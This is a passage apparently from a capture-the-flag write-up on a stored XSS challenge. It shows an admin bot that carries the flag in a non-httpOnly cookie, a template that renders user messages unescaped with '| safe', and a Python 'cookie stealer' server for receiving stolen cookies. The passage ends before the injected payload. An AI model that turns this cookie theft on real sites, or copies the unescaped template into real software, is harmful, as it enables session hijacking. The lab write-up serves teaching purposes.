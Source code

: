 ```js
    name: "Cookie",
    httpOnly: false,
    value: token,
    url: CONFIG.APPURL
})

// ...

await page.goto(urlToVisit, { // urlToVisit -> /admin
    waitUntil: 'networkidle2'
});
```

We can note that, the `/admin` path gets called every 30s, the user contains the flag in it's Cookies, and the xss auditor is disabled.

Let's try to find a way to inject something into the admin page. By looking at it's template we learn that all the messages submitted get listed and displayed on the page:

{% raw %}

```html
{% for message in messages %}
    <div>{{ message.content | safe }}</div>
{% endfor %}
```

{% endraw %}

## Building the payload

Let's make a basic cookie stealer server.

```py
from http.server import BaseHTTPRequestHandler, HTTPServer

class Server(BaseHTTPRequestHandler):
    def do_GET(self):
        print(f"Path: {self.path}")
        self.send_response(200)
        self.end_headers()


def run(server_class=HTTPServer, handler_class=Server, port=80):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    print("Starting server...\n")
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        pass
    httpd.server_close()
    print("Stopping server...\n")

if __name__ == '__main__':
    run()
```
